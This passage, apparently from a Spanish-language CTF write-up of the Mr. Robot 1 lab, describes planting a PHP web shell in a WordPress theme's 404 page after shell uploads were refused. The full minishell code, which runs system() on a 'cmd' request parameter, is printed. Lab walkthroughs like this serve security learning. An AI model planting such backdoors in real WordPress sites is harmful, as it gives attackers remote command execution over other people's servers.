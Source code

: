 No he podido aun realizar la carga de mi shell en la web ya que todas me exigen un formato de archivo en concreto.

#### Obtencion de shell modificando archivo legitimo de Wordpress

Se me ha ocurrido modificar un archivo legitimo del tema para que cuando cargue se ejecute la shell. Para ello voy a la seccion donde estan los temas, busco el tema activado y busco un archivo que solo se ejecute bajo ciertas circunstancias como puede ser una pagina 404 de error preestablecida.

![alt text](../assets/images/mr-robot1/image-40.png)

Añado una minishell para ejecutar comandos que pase como parametros en la direccion de la pagina.

```php
<?php
if(isset($_REQUEST['cmd'])){
echo "<pre>";
$cmd = ($_REQUEST['cmd']);
system($cmd);
echo "</pre>";
die;
}
?>
```
